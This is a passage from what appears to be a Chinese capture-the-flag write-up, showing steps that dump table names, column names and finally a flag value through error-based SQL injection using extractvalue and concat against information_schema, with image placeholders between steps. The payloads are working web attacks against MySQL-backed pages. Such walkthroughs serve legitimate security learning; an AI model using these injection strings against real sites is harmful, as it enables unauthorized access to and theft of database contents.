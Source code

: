```
?id=1' and(extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema="web1002-2"),0x7e)))--+ 
```

![在这里插入图片描述](img/73cefab02d9e982bef19be99ebc55f65.png)
12、爆列：

```
?id=1' and(extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema="web1002-2" and table_name="flag2"),0x7e)))--+ 
```

![http://123.206.87.240:9004/Once_More.php](img/2f3bd71306a77b592d2d0b43a86546ef.png)
13、爆flag

```
?id=1' and(extractvalue(1,concat(0x7e,(select group_concat(flag2) from flag2),0x7e)))--+ 
```

![在这里插入图片描述](img/756e31596f0b534ea14e99cde84931a5.png)
